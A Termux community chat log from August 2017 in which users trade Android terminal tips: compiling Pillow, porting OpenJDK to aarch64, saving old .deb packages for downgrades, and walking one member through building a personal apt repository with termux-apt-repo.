2017-08-24 10:56:01	g093	OS 6.0.1 *OS 6.0.1 Marshmellow

2017-08-24 11:16:42	g093	Termux als Betriebssystem

2017-08-24 11:16:42	g093	Das Linux in der Tasche

2017-08-24 11:18:01	g093	https://plus.google.com/109614420080028230010/posts/dQQmwQrwqq8

2017-08-24 13:54:39	gitter	(Hax4us) Can I install pillow @cocodevienne

2017-08-24 13:58:46	gitter	(Hax4us) How to install zlib (I think it is required) @cocodevienne

2017-08-24 14:20:42	gitter	(fortes) Apologies for the newbie question, but how do folks handle backups for your files in termux?

2017-08-24 16:04:12	zub	Hi. I'm wondering: what happens to a running termux session when I suspend my phone (or well, press the power button so the display turns off, at least). I see there is an "acquire wakelock" in the status bar, bu what happens if this is not selected?

2017-08-24 17:33:28	gitter	(cocodevienne) Hey @Hax4us copy and run this:  `pkg install libjpeg-turbo-dev libjpeg-turbo-progs; LDFLAGS="-L/system/lib/" pip2 install Pillow`

2017-08-24 23:49:21	gitter	(vishalbiswas) live_the_dream: how's the performance compared to arm? You should make a pull request including all of your changes. If it's better than arm, it might be a good idea to blacklist arm and enable the package

2017-08-24 23:52:10	live_the_dream	arm64 replaces aarch64 they are different but both 64 bit

2017-08-24 23:52:45	live_the_dream	well technically aarch64 should replace arm64 but android is lacking stuff so not working

2017-08-24 23:53:19	live_the_dream	it doesn't replace arm it just means all archs should eork somewhat

2017-08-24 23:53:35	gitter	(vishalbiswas) live_the_dream: yes i know, but we were using arm java on aarch64 until now

2017-08-24 23:53:44	live_the_dream	yeah

2017-08-24 23:54:21	gitter	(vishalbiswas) so are you seeing improvements over arm? how about  that tomcat bench?

2017-08-24 23:55:19	live_the_dream	hzven't tested it yet

2017-08-25 00:06:47	g093	https://plus.google.com/109614420080028230010/posts/Ey4eBAxASFM

2017-08-25 00:19:37	live_the_dream	k i forgdt what was the actual bench?

2017-08-25 00:20:22	live_the_dream	compiling tomcat with ant?

2017-08-25 00:21:12	gitter	(vishalbiswas) running tomcat without rebooting phone

2017-08-25 00:26:42	g093	Can anyone tell my why my poem about Termux is not posting at https://termux.com/community

2017-08-25 00:28:11	g093	I posted at https://plus.google.com/109614420080028230010/posts/Ey4eBAxASFM and it has not accessable at https://termux.com/community

2017-08-25 00:28:21	g093	wtf

2017-08-25 00:29:01	g093	no listing for ndks, sdks now this...

2017-08-25 00:41:44	rods-tab3	did it rhyme ?

2017-08-25 00:42:43	g093	https://plus.google.com/u/0/117492594531181986853/posts/3KQuY24kK32

2017-08-25 00:43:04	g093	I also have a question. Why are my posts here at Google+ disappearing and reappearing, at times? Like plus.google.com - It is easiest to have websites in your pocket📲 The virtual keyboard is the... for instance? And others, my posts regarding https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsOnDevice were gone, wiped off Google+ a short while before for a couple of weeks, if you have not

2017-08-25 00:43:04	g093	noticed! Then suddenly to reappear. What gives?

2017-08-25 00:43:04	g093	+selvin gomez Can you please tell us what is so fantastic about aview that you want us all to have it on our deviceas? A little more information including links are very welcome.

2017-08-25 00:43:04	g093	It is easiest to have websites in your pocket📲 The virtual keyboard is the...

2017-08-25 00:43:04	g093	It is easiest to have websites in your pocket📲 The virtual keyboard is the...

2017-08-25 00:43:04	g093	plus.google.com

2017-08-25 00:43:50	g093	It is easiest to have websites in your pocket📲

2017-08-25 00:43:50	g093	The virtual keyboard is the lightest of all, and with multi-finger typing💅

2017-08-25 00:43:50	g093	Lightening many fingers speed is enlightening, to say least of all👂

2017-08-25 00:43:50	g093	Will we ever forget that 🐁 mouse? The one matrix transformed into a tap tap at the window of a little brick 🏠 house.

2017-08-25 00:43:50	g093	686 packages that are available for all and arm computer architectures for Termux on Android as of 2017-08-24. 

2017-08-25 00:43:50	g093	https://sdrausty.github.io/pages/more

2017-08-25 00:45:53	rods-tab3	bbecause those posts by sd rausty and you not him; you g093

2017-08-25 00:46:37	gitter	(sdrausty) The DVR in Termux does more than ROCKN

2017-08-25 00:46:40	gitter	(sdrausty) !

2017-08-25 00:47:16	gitter	(sdrausty) youtube-dl && play-audio

2017-08-25 00:47:58	g093	? rods-tab³

2017-08-25 00:48:17	g093	g*

2017-08-25 00:49:58	live_the_dream	how is this meant to start exactly?

2017-08-25 00:50:55	g093	matrix transformed *the matrix transformed

2017-08-25 00:54:24	g093	live_the_dream: It began before you were birn here on this planet, rock, muddy rock, trashed and trashing muddy ball spinning round and round what the sun is spinnin' aroud,

2017-08-25 00:54:52	g093	were birn *were born

2017-08-25 00:55:34	g093	spinnin' aroud *spinnin' around

2017-08-25 00:56:55	live_the_dream	k its running

2017-08-25 00:57:44	live_the_dream	im assuming at some point its meant to not use 100% of all cpu?

2017-08-25 00:58:09	g093	Copernicus was wrong. The ⛅ Sun is not the center. Neither is the center of the Milkyway the center. It all spins round and round. Have you seen 2001 - A Space Oddessy?

2017-08-25 00:59:25	g093	also sprach zarathustra

2017-08-25 01:00:33	g093	A little DVR programming youtube-dl https://m.youtube.com/watch?v=IFPwm0e_K98

2017-08-25 01:00:40	live_the_dream	ok i can run tomcat without rebooting ph

2017-08-25 01:00:55	g093	youtube-dl https://m.youtube.com/watch?v=IFPwm0e_K98 *`youtube-dl https://m.youtube.com/watch?v=IFPwm0e_K98`

2017-08-25 01:01:34	g093	Alternative, one of a few https://m.youtube.com/watch?v=ETveS23djXM

2017-08-25 01:01:43	g093	I see stars.

2017-08-25 01:02:11	gitter	(vishalbiswas) live_the_dream: new milestone

2017-08-25 01:03:13	g093	Beautiful cresent 🌒 Moon this evening btw

2017-08-25 01:04:50	g093	garbage pronounced gardaje on screen in weechat Termux v 0.53 OS 6.0.1 Marshmallow

2017-08-25 01:05:10	g093	more gar

2017-08-25 01:06:07	g093	more

2017-08-25 01:06:54	g093	Richard Strauss - Also sprach Zarathustra, Op. 30

2017-08-25 01:07:54	g093	ta da

2017-08-25 01:08:04	g093	boom

2017-08-25 01:08:09	g093	boom

2017-08-25 01:08:12	g093	boom

2017-08-25 01:08:16	g093	ta da

2017-08-25 01:09:04	g093	youtube-dl && play-audio

2017-08-25 01:09:08	g093	ta da

2017-08-25 01:09:16	g093	DVR

2017-08-25 01:09:28	g093	in your pocket

2017-08-25 01:11:17	g093	https://m.youtube.com/results?q=also+sprach+zarathustra

2017-08-25 01:11:21	g093	2001

2017-08-25 01:11:38	live_the_dream	its unfortunate that a lot of stuff i need for java requires jvm8

2017-08-25 01:11:58	g093	I see stars. Didn't it begin with stones, or a stone?

2017-08-25 01:12:45	gitter	(vishalbiswas) live_the_dream: jamvm or anything similar?

2017-08-25 01:13:01	gitter	(vishalbiswas) if i remember correctly there was a pull request for jamvm

2017-08-25 01:13:01	g093	wherez java in Termux live_the_dream: the stuff Sndroid is made of ?%

2017-08-25 01:13:12	live_the_dream	bazel

2017-08-25 01:13:19	g093	Sndroid *Android

2017-08-25 01:13:36	live_the_dream	its googles build system

2017-08-25 01:13:57	g093	@vishabiswas No command 'javmn' found, did you mean:

2017-08-25 01:14:19	gitter	(vishalbiswas) g093: jamvm was closed without merging

2017-08-25 01:14:34	g093	No command 'jamvm' found, did you mean;)

2017-08-25 01:15:09	gitter	(vishalbiswas) https://github.com/termux/termux-packages/pull/118

2017-08-25 01:15:25	g093	Where's simple helloWorld.java @vishalbiswas ?

2017-08-25 01:16:56	g093	live_the_dream: Where's simple helloWorld.java on Termux, please?

2017-08-25 01:17:36	gitter	(vishalbiswas) here (helloWorld.java)

2017-08-25 01:17:37	gitter	(vishalbiswas) ```java

2017-08-25 01:17:37	gitter	(vishalbiswas) class helloWorld {

2017-08-25 01:17:37	gitter	(vishalbiswas) [full message: https://gitter.im/termux/termux?at=599fb2f0578b44a046e6ec2e]

2017-08-25 01:18:29	g093	next is compile, with? what? please?

2017-08-25 01:19:27	g093	In Termux on device...

2017-08-25 01:20:13	gitter	(vishalbiswas) might be available pretty soon if live_the_dream's changes gets merged and enabled

2017-08-25 01:20:42	gitter	(vishalbiswas) I just want to have a stable gradle on my termux

2017-08-25 01:21:07	g093	which OS flavor? yum yum

2017-08-25 01:21:20	gitter	(vishalbiswas) ?

2017-08-25 01:21:32	g093	sability is sanity

2017-08-25 01:21:50	g093	sability *stability

2017-08-25 01:22:20	g093	Can we have stable, testing, experimental at termux.net ?

2017-08-25 01:22:40	g093	like @debian

2017-08-25 01:22:46	g093	.org

2017-08-25 01:24:34	live_the_dream	no we don't have the man power to be doing stuff like that

2017-08-25 01:25:18	g093	I am very sure we can have stability in Termux simple by followind debian's model of stable & stable+

2017-08-25 01:26:16	g093	live_the_dream: Manpower or scripting know how?

2017-08-25 01:26:35	live_the_dream	man power

2017-08-25 01:27:17	g093	@fornwall stated we do not keep the old debs.

2017-08-25 01:27:40	g093	That's fine since it require resources.

2017-08-25 01:29:52	g093	So @sdrausty has made a little script to keep the old, hopefully working stably debs. It should be posted at https://github.com/sdrausty/au shortly.

2017-08-25 01:30:28	g093	live-the_dream: people power?

2017-08-25 01:30:57	live_the_dream	yeah testers and those capable of fixes bugs

2017-08-25 01:32:25	g093	You should be able to write it by yourself.

2017-08-25 01:33:37	g093	`mkdir /sdcard/deb`

2017-08-25 01:34:33	g093	`mv /data/data/com.termux/files/usr/var/cache/apt/archives/*.deb /sdcard/deb`

2017-08-25 01:34:40	g093	`pkg up`

2017-08-25 01:34:45	g093	thats it

2017-08-25 01:35:20	g093	well almost what do u do to downgrade

2017-08-25 01:35:57	g093	dpkg --purge pkg_name

2017-08-25 01:36:01	g093	then

2017-08-25 01:37:20	g093	dpkg --install pkg_name

2017-08-25 01:37:53	g093	a little more stability in Termux please

2017-08-25 01:41:59	g093	live_the_dream: i know we unfortunantly are short, compare debian <70k packages 

2017-08-25 01:49:30	g093	it require *it requires

2017-08-25 01:50:22	g093	automatation should be our priority

2017-08-25 01:54:03	g093	for expample does anyone know how travis (https://travis-ci.org) can build https://github.com/sdrausty/buildAPKs and submodules correctly since they require and OS thst is not on the list yet as far as I can tell of OSes they confirm builds on?

2017-08-25 01:54:53	g093	and OS thst *an OS that

2017-08-25 01:55:34	g093	How automated is travis, anyone?

2017-08-25 01:56:57	g093	Why is Termux not on Travis' OS build list? 

2017-08-25 01:57:28	g093	Anyone?

2017-08-25 01:58:54	g093	Why are there so few Termux users? Everyone has an Android in their pocket, right?

2017-08-25 02:16:58	gitter	(Hax4us) @cocodevienne same error ....The headers or library files could not be found for zlib,

2017-08-25 02:16:58	gitter	(Hax4us)     a required dependency when compiling Pillow from source

2017-08-25 02:17:10	gitter	(Hax4us) Anyone can help ?

2017-08-25 02:26:45	live_the_dream	you need to symlink libz.so in termux libdir

2017-08-25 02:27:19	live_the_dream	so ln -s /system/lib/libz.so $PREFIX/lib/libz.so

2017-08-25 02:27:28	live_the_dream	if using 64 bit

2017-08-25 02:27:34	live_the_dream	so ln -s /system/lib64/libz.so $PREFIX/lib/libz.so

2017-08-25 02:29:01	live_the_dream	without so bit obviously

2017-08-25 02:29:22	live_the_dream	that should get python to notice it has zlib

2017-08-25 02:39:14	gitter	(Auxilus) @cocodevienne @frumpylava jekyll is working nice for me!

2017-08-25 03:13:20	gitter	(sdrausty) I'd like an opinion, or a few

2017-08-25 03:13:36	gitter	(sdrausty) About https://github.com/sdrausty/au

2017-08-25 03:18:11	gitter	(Hax4us) @sdrausty great...it is very useful

2017-08-25 03:20:38	gitter	(sdrausty) tnx @Hax4us

2017-08-25 03:23:29	frumpylava	sdrausty: Few toughts. Interessting idea. I might actually use this myself. Until now I had the whole $PREFIX as a .git directory, which I commit to before updating, but this seems better. About your code: You don't really need the if statement, you can just use `mkdir -p /sdcard/debs`.

2017-08-25 03:23:38	frumpylava	why use mv instead of cp?

2017-08-25 03:24:02	frumpylava	You could use rsync if it is installed, which would probably be the best way to update the /sdcard/debs directory.

2017-08-25 03:25:20	gitter	(sdrausty) frumpylava: Thank you for your questions and comments 🙂

2017-08-25 03:27:05	gitter	(sdrausty) `mv` to save space; Ideally destination directory should be on external micro SD card.

2017-08-25 03:28:46	gitter	(Hax4us) Yes mv is better for save space ....

2017-08-25 03:29:34	frumpylava	Does apt not need these debs for something? Why would they be kept around otherwise?

2017-08-25 03:37:07	live_the_dream	hmmm can't use github to distribute openjdk the debs are too large

2017-08-25 03:37:18	live_the_dream	i could probably split it into sub pacakges

2017-08-25 03:38:03	gitter	(sdrausty) I just pushed your `mkdir -p` suggestion to

2017-08-25 03:38:04	live_the_dream	anyway openjdk should compile for aarch64 now with pull request ... and actually work in docker image

2017-08-25 03:38:34	live_the_dream	hopefully this will allow more people to work on it

2017-08-25 03:38:42	gitter	(sdrausty) https://github.com/sdrausty/au Thank you frumpylava:

2017-08-25 03:40:21	frumpylava	@sdrausty also if you use $PREFIX instead of /data/data/com.termux/files/usr/ it would definitely be future proof, should that path ever change.

2017-08-25 03:41:10	gitter	(sdrausty) If apt really needs them for some reason they can always be moved back, but as far as I can tell they're just sitting there in the archive.

2017-08-25 03:47:31	gitter	(sdrausty) $PREFIX it is💪 Thank you once more, just pushed it.

2017-08-25 04:43:27	Boyyoz	Anyone here?

2017-08-25 04:43:37	live_the_dream	no one

2017-08-25 04:44:08	Boyyoz	How do I setup storage on android?

2017-08-25 04:44:53	live_the_dream	depends what y9u mean

2017-08-25 04:45:27	Boyyoz	How do I access local storage from termux?

2017-08-25 04:45:48	Boyyoz	Like the download folder for example

2017-08-25 04:47:52	gitter	(Hax4us) @Boyyoz cd /sdcard/Download

2017-08-25 04:49:17	live_the_dream	if you mean 100% access to everything... need root. if you mean allowing storage on external sdcard the commznd termux-setup-storage

2017-08-25 04:49:17	live_the_dream	will provide you access to the ecternal sdcard

2017-08-25 04:49:17	live_the_dream	but not all of it. its tne android security model

2017-08-25 04:55:12	g093	@Boyyoz https://termux.com/storage.html

2017-08-25 07:07:13	gitter	(Hax4us) Can I change the file permissions from github website not from terminal

2017-08-25 07:08:04	gitter	(Hax4us) is it possible ? @al3xv3gas

2017-08-25 07:08:13	gitter	(Hax4us) Any one ?

2017-08-25 08:05:11	frumpylava	So, what's this thing about pthread? I'm trying to build cava and get the error "pthread.h found but there is no pthread library to make use of"

2017-08-25 09:03:30	live_the_dream	build java?

2017-08-25 09:03:38	live_the_dream	not cava?

2017-08-25 09:04:09	frumpylava	live_the_dream: No. cava is right. https://github.com/karlstav/cava

2017-08-25 09:04:49	frumpylava	I'm not touching java with a 3 meter pole.

2017-08-25 09:05:11	live_the_dream	yeah the pthread stuff is in libc.so on androjd

2017-08-25 09:06:03	live_the_dream	so there is no libpthread.so to link

2017-08-25 09:07:20	live_the_dream	either force script to skip or whatever change -lpthread stuff

2017-08-25 09:08:10	live_the_dream	android doesn't have full pthreads because they left out the stuff that can make thingx unstable

2017-08-25 09:09:39	frumpylava	live_the_dream: skip the check for pthread?

2017-08-25 09:15:18	gitter	(cocodevienne) Great! @Auxilus `apt install termux-tools && termux-setup-storage` @Boyyoz  No unfortunately only from the terminal! @Hax4us

2017-08-25 09:17:06	live_the_dream	yeah

2017-08-25 09:28:34	live_the_dream	but sometimes it needs pthread stuff that ia not in android

2017-08-25 09:41:31	gitter	(cocodevienne) @sdrausty You have a typo on your package count website. `sdrausty.guthub.io`. And about how many packages we have: What about third-party repos? Mine or @vishalbiswas ' repo?

2017-08-25 09:55:20	gitter	(Hax4us) guyz checkout my Tmux-Bunch script or tool to decompile apk , recompile, sign and zipalign in termux and give feedback https://github.com/Hax4us/Tmux-Bunch

2017-08-25 09:57:52	gitter	(Hax4us) @cocodevienne

2017-08-25 09:58:22	gitter	(Hax4us) Have u any idea about that

2017-08-25 09:58:25	gitter	(Hax4us) ImportError: dlopen failed: cannot locate symbol "log" referenced by "/data/data/com.termux/files/usr/lib/python2.7/site-packages/PIL/_imaging.so"...

2017-08-25 10:29:17	frumpylava	live_the_dream: cava seems to work well with the pthreads check disabled.

2017-08-25 10:43:12	frumpylava	wow cava is so pretty. even the gradients work

2017-08-25 10:45:29	frumpylava	Is $TERM for Terminals what User Agents are for Browser? Everybody claims to be xterm/Mozilla.

2017-08-25 11:05:35	gitter	(cocodevienne) Have you tested it extensively? @Hax4us

2017-08-25 11:53:22	gitter	(vishalbiswas) @cocodevienne I don't have a repo

2017-08-25 11:55:13	gitter	(cocodevienne) Yeah, well whatever, I think it is quite clear what I mean.

2017-08-25 12:14:58	gitter	(cocodevienne) Oi, @Auxilus!

2017-08-25 12:15:19	gitter	(cocodevienne) I just had a look at D-Tect...

2017-08-25 12:15:28	gitter	(cocodevienne) Too many damn dependencies.

2017-08-25 12:15:53	gitter	(cocodevienne) Beautiful Soup for one and all the other native ones.

2017-08-25 12:16:01	gitter	(cocodevienne) Too much to package.

2017-08-25 12:17:08	gitter	(cocodevienne) The system I use for generating `DEBS` only works well and is somewhat manageable for small scripts or programs that DO NOT have a shitton of dependencies.

2017-08-25 12:17:44	gitter	(cocodevienne) @frumpylava Where can I find the minima theme?

2017-08-25 12:17:56	gitter	(cocodevienne) For Jekyll that is...

2017-08-25 12:19:20	gitter	(Auxilus) @cocodevienne

2017-08-25 12:19:32	gitter	(Auxilus) Minima is the default jekyll theme

2017-08-25 12:19:59	gitter	(cocodevienne) Your point being?

2017-08-25 12:20:06	gitter	(Auxilus) When you exec `jekyll init` it will create page in minima theme itself

2017-08-25 12:20:26	gitter	(cocodevienne) Btw, there is a ton of mistakes with your website.

2017-08-25 12:20:28	gitter	(Auxilus) Or you can clone minima from git

2017-08-25 12:20:35	gitter	(cocodevienne) Typos that is...

2017-08-25 12:20:41	gitter	(cocodevienne) I'd correct them.

2017-08-25 12:20:46	gitter	(Auxilus) Please,..

2017-08-25 12:20:56	gitter	(cocodevienne) Ok thx, will look into it.

2017-08-25 12:20:58	gitter	(Auxilus) Can you commit?

2017-08-25 12:21:00	gitter	(cocodevienne) @Auxilus

2017-08-25 12:21:04	gitter	(cocodevienne) yep.

2017-08-25 12:21:04	gitter	(Auxilus) Ty

2017-08-25 12:21:18	gitter	(Auxilus) I just uploaded it this afternoon

2017-08-25 12:21:26	gitter	(cocodevienne) Merge them ASAP please.

2017-08-25 12:21:56	gitter	(Auxilus) Ye

2017-08-25 12:22:05	gitter	(Auxilus) Ill merge as soon as you commit

2017-08-25 12:22:11	gitter	(Auxilus) Just tell me when..

2017-08-25 12:23:57	gitter	(cocodevienne) Working on it now

2017-08-25 12:24:37	gitter	(Auxilus) K

2017-08-25 12:24:50	gitter	(cocodevienne) First PR sent.

2017-08-25 12:25:01	gitter	(Auxilus) Ye just saw

2017-08-25 12:25:17	gitter	(Auxilus) Merging ut

2017-08-25 12:25:21	azarus_	What's all the talk about jekyll on this chat? Shouldn't they belong on #jekyll?

2017-08-25 12:25:39	azarus_	(Not that I dislike jekyll, I use it for my website)

2017-08-25 12:25:59	gitter	(Auxilus) Merged

2017-08-25 12:26:32	gitter	(cocodevienne) Second one sent.

2017-08-25 12:26:36	gitter	(cocodevienne) Rest is fine.

2017-08-25 12:26:50	gitter	(cocodevienne) If you need some help, give me a shout.

2017-08-25 12:26:57	gitter	(cocodevienne) @Auxilus

2017-08-25 12:27:27	gitter	(Auxilus) Okay, ofc, ty man...

2017-08-25 12:28:04	gitter	(cocodevienne) Glad I could help. Btw, currently updating all the sources for my private package repo.

2017-08-25 12:28:09	gitter	(cocodevienne) @Auxilus

2017-08-25 12:28:47	gitter	(Auxilus) K

2017-08-25 12:29:14	gitter	(cocodevienne) So you will know.

2017-08-25 12:29:18	gitter	(Auxilus) It gives me warnings that your repo dies not support aarch64 packages

2017-08-25 12:29:29	gitter	(cocodevienne) That is no big deal.

2017-08-25 12:29:29	gitter	(Auxilus) Whenever i do apt update

2017-08-25 12:29:40	gitter	(Auxilus) Okay

2017-08-25 12:29:41	gitter	(cocodevienne) I also get it.

2017-08-25 12:29:49	gitter	(cocodevienne) Because I support all arches.

2017-08-25 12:29:56	gitter	(cocodevienne) Nothing to worry about,

2017-08-25 12:30:29	gitter	(Auxilus) Ofc I got no problem when I installed packages from it

2017-08-25 12:31:25	gitter	(cocodevienne) Can you test out something?

2017-08-25 12:32:04	gitter	(Auxilus) Sure...

2017-08-25 12:33:14	gitter	(cocodevienne) Go to Termux and install enigma and run enigma.

2017-08-25 12:33:19	gitter	(cocodevienne) Tell me what happens.

2017-08-25 12:33:27	gitter	(Auxilus) From your repo?

2017-08-25 12:33:35	gitter	(cocodevienne) Yes.

2017-08-25 12:33:41	gitter	(Auxilus) Okay wait..

2017-08-25 12:34:00	gitter	(Auxilus) Error

2017-08-25 12:34:02	gitter	(cocodevienne) Take your time...

2017-08-25 12:34:07	gitter	(cocodevienne) Argparse?

2017-08-25 12:34:11	gitter	(Auxilus) Could not load some modules

2017-08-25 12:34:27	gitter	(Auxilus) Ye argparse

2017-08-25 12:34:36	gitter	(cocodevienne) Whats the exact error?

2017-08-25 12:34:44	gitter	(cocodevienne) A Traceback?

2017-08-25 12:34:59	gitter	(Auxilus) Yeah

2017-08-25 12:35:18	gitter	(cocodevienne) Hm thx, I find it most puzzling.

2017-08-25 12:35:25	gitter	(cocodevienne) I DID import it...

2017-08-25 12:35:53	gitter	(Auxilus) Maybe import it before using it (  ik it sounds silly..)

2017-08-25 12:36:20	gitter	(Auxilus) Cz error tells something like `NameError: name 'argparse' is not defined`

2017-08-25 12:37:11	gitter	(cocodevienne) I know, got the same! Anyway, thanks, I just pushed a fix to the source repo. I'll build all the pkgs and upload 'em later.+

2017-08-25 12:37:15	gitter	(cocodevienne) *later.

2017-08-25 12:37:28	gitter	(cocodevienne) I'll tell you when it is ready.

2017-08-25 12:37:37	gitter	(Auxilus) K

2017-08-25 12:37:47	gitter	(Auxilus) Its an enigma encoder?

2017-08-25 12:38:57	gitter	(cocodevienne) Btw: TO EVERYONE, I've also made Packages for Debian desktop distributions. If someone could help me with setting up a repo for these desktop packages, I would be very much obliged to those persons.

2017-08-25 12:39:14	gitter	(cocodevienne) No, just a simple search engine.

2017-08-25 13:11:24	gitter	(cocodevienne) @fornwall @Auxilus [URGENT] How would I have to modify the `termux-apt-repo` tool in order to have the script generate a repo for a desktop Linux distro like Ubuntu, Debian? Exact steps would be welcome! I took the liberty of modifying it and adding it to the sources of my repo.

2017-08-25 13:11:38	gitter	(cocodevienne) *@vishalbiswas

2017-08-25 13:12:01	gitter	(cocodevienne) Didn't mean you. @Auxilus

2017-08-25 13:12:06	gitter	(cocodevienne) Unless you know?

2017-08-25 13:40:23	gitter	(Hax4us) @cocodevienne bro help

2017-08-25 13:40:27	gitter	(Hax4us) ImportError: dlopen failed: cannot locate symbol "log" referenced by "/data/data/com.termux/files/usr/lib/python2.7/site-packages/PIL/_imaging.so"...

2017-08-25 13:54:22	gitter	(cocodevienne) Clone the repo with `git clone` and use the instructions here: https://github.com/python-pillow/Pillow/issues/1957

2017-08-25 16:01:32	gitter	(sdrausty) @cocodevienne I will look into expanding repos and check out the count, thanks.

2017-08-25 16:09:52	gitter	(sdrausty) @cocodevienne where's the typo? I couldn't find it?

2017-08-25 16:12:09	gitter	(sdrausty) @cocodevienne Who else has Termux repos up?

2017-08-25 16:18:01	gitter	(cocodevienne) @Hax4us

2017-08-25 16:18:43	gitter	(cocodevienne) @sdrausty Go right to the bottom, right below the las screenshot, where you ask to donate to your site.

2017-08-25 16:19:34	gitter	(sdrausty) lol tnx @cocodevienne

2017-08-25 16:19:39	gitter	(cocodevienne) I have one, @Auxilus has one. @frumpylava do you have one? @fornwall has the main one..those are all I know about.

2017-08-25 16:19:54	gitter	(cocodevienne) I'm refreshing all the sources today.

2017-08-25 16:20:09	gitter	(cocodevienne) Will be up and ready to use in an hour or two.

2017-08-25 16:20:23	gitter	(cocodevienne) Should I post repo-adding code here?

2017-08-25 16:20:27	gitter	(cocodevienne) @sdrausty

2017-08-25 16:20:58	gitter	(cocodevienne) I'll also post a link to the source code repo if people want to contribute.

2017-08-25 16:21:25	frumpylava	@cocodevienne I don't have one, but live_the_dream has one.

2017-08-25 16:23:53	gitter	(sdrausty) Fixed the typo you found @cocodevienne Thank you. It'll be fixed online by tommorow. Post both as links.

2017-08-25 16:24:08	gitter	(sdrausty) I'd like to have one.

2017-08-25 16:24:58	gitter	(cocodevienne) Fine then there we are, four repos 'till now. live_the_dream, Auxilus, Fornwall and me.

2017-08-25 16:25:13	gitter	(cocodevienne) Sure, shall I walk you through it?

2017-08-25 16:25:16	gitter	(cocodevienne) @sdrausty

2017-08-25 16:26:34	gitter	(cocodevienne) No problem. I wouldn't wanna have a typo in my page, if I do or anyone notices, tell me! So, I just thought I'd tell you. And it'd suck a bit seeing as you put in so much work into that page! Hats off to you!

2017-08-25 16:26:47	gitter	(cocodevienne) You'll need some simple packages.

2017-08-25 16:26:58	gitter	(cocodevienne) Any old package will do admirably.

2017-08-25 16:29:39	gitter	(sdrausty) Ready to walk.

2017-08-25 16:30:50	gitter	(sdrausty) Got lots of debs sitting in /sdcard/debs

2017-08-25 16:32:41	gitter	(sdrausty) I agree about typos; They are more than annoying. Thanks for finding it @cocodevienne If I find any 👂, I'll be sure to let you know.

2017-08-25 16:43:42	gitter	(cocodevienne) Good man, ok lets go.

2017-08-25 16:43:50	gitter	(cocodevienne) Are you there?

2017-08-25 16:43:53	gitter	(cocodevienne) @sdrausty

2017-08-25 16:45:21	gitter	(cocodevienne) Now before we start I want you to trust me. All the steps I am going to outline have been gathered from experience and wrestling with all these tools for a while now.

2017-08-25 16:54:49	gitter	(sdrausty) Right @cocodevienne Sounds great.

2017-08-25 16:55:32	gitter	(cocodevienne) Ok so first execute following commands:

2017-08-25 16:55:50	gitter	(cocodevienne) `termux-setup-storage` (grant permission)

2017-08-25 16:56:05	gitter	(cocodevienne) Then: ` apt update && apt install git`

2017-08-25 16:56:31	gitter	(cocodevienne) I'll just post them in the appropriate order.

2017-08-25 16:57:14	gitter	(sdrausty) @cocodevienne That's done.

2017-08-25 16:57:21	gitter	(cocodevienne) after that is done do this: `mkdir myrepo` then `cd` into it and make two directories:

2017-08-25 16:57:35	gitter	(cocodevienne) *one directory

2017-08-25 16:57:43	gitter	(cocodevienne) call it whatever you like.

2017-08-25 16:58:00	gitter	(cocodevienne) that will contain the folder structure for your repo.

2017-08-25 16:58:26	gitter	(cocodevienne) then cd into `$HOME`.

2017-08-25 16:59:15	gitter	(cocodevienne) And execute this: `cd shared/storage && mv debs $HOME/myrepo`

2017-08-25 16:59:29	gitter	(cocodevienne) Do that and tell me if it was successful.

2017-08-25 17:00:15	gitter	(cocodevienne) You can do `cd $HOME && cd myrepo/debs && ls`

2017-08-25 17:00:27	gitter	(cocodevienne) that should list all the packages you have built.

2017-08-25 17:00:36	gitter	(cocodevienne) clear so far?

2017-08-25 17:01:22	gitter	(sdrausty) cd shared/storage && mv debs $HOME/myrepo

2017-08-25 17:01:41	gitter	(sdrausty) bash: cd: shared/storage: No such file or directory

2017-08-25 17:01:58	gitter	(sdrausty) $ cd storage && mv debs $HOME/myrepo

2017-08-25 17:02:17	gitter	(cocodevienne) Okay, slowly!:)

2017-08-25 17:02:34	gitter	(cocodevienne) Did cd storage put you in your sdcard?

2017-08-25 17:02:43	gitter	(sdrausty) mv: cannot stat 'debs': No such file or directory

2017-08-25 17:03:02	gitter	(cocodevienne) okay do `cd $HOME`

2017-08-25 17:03:17	gitter	(cocodevienne) then do `ls` and tell me what you see.

2017-08-25 17:03:32	gitter	(cocodevienne) No stress, really! Take your time.

2017-08-25 17:04:14	gitter	(sdrausty) $ cd storage && cp /sdcard/debs/*.deb $HOME/myrepo is populating

2017-08-25 17:05:10	gitter	(sdrausty) Lots of *debs in myrepo many lots of them

2017-08-25 17:06:50	gitter	(sdrausty) in  *in $HOME/myrepo

2017-08-25 17:07:24	gitter	(cocodevienne) Okay thats good! Now make an empty directory!

2017-08-25 17:07:54	gitter	(cocodevienne) and do `mv *.deb <your dir`

2017-08-25 17:07:54	gitter	(sdrausty) Done this 🙂

2017-08-25 17:08:09	gitter	(cocodevienne) okay now comes the tricky part.

2017-08-25 17:08:20	gitter	(sdrausty) Ok

2017-08-25 17:08:38	gitter	(cocodevienne) Do this: `apt update && apt install termux-apt-repo`

2017-08-25 17:08:52	gitter	(sdrausty) Install

2017-08-25 17:08:57	gitter	(cocodevienne) ?

2017-08-25 17:09:11	gitter	(sdrausty) It is intalled.

2017-08-25 17:09:18	gitter	(cocodevienne) Ok good.

2017-08-25 17:09:25	gitter	(cocodevienne) Where are you now?

2017-08-25 17:11:24	gitter	(sdrausty) At populated $HOME/myrepo/repo with many*.deb files, and ready to run `termux-apt-repo` @cocodevienne

2017-08-25 17:11:41	gitter	(cocodevienne) Hang on, slowly

2017-08-25 17:11:56	gitter	(cocodevienne) Is there an empty dir in myrepo?

2017-08-25 17:12:10	gitter	(cocodevienne) And is there a dir with your debs?

2017-08-25 17:12:30	gitter	(sdrausty) Two dirs

2017-08-25 17:12:41	gitter	(cocodevienne) what are they called?

2017-08-25 17:12:47	gitter	(sdrausty) One empty Another repo

2017-08-25 17:12:55	gitter	(sdrausty) empty and repo

2017-08-25 17:12:55	gitter	(cocodevienne) Okay good.

2017-08-25 17:13:14	gitter	(cocodevienne) whats the empty one called?

2017-08-25 17:14:03	gitter	(sdrausty) empty

2017-08-25 17:14:41	gitter	(cocodevienne) ok are you in myrepo?

2017-08-25 17:14:53	gitter	(cocodevienne) what does `ls` give you?

2017-08-25 17:14:53	gitter	(sdrausty) Adding files...

2017-08-25 17:15:13	gitter	(sdrausty) Creating package...

2017-08-25 17:15:36	gitter	(cocodevienne) @sdrausty stop, what command did you run?

2017-08-25 17:16:04	gitter	(sdrausty) Done!

2017-08-25 17:16:08	gitter	(sdrausty) $ termux-apt-repo myrepo/repo/ myrepo/empty/

2017-08-25 17:16:23	gitter	(cocodevienne) yes, thats it!

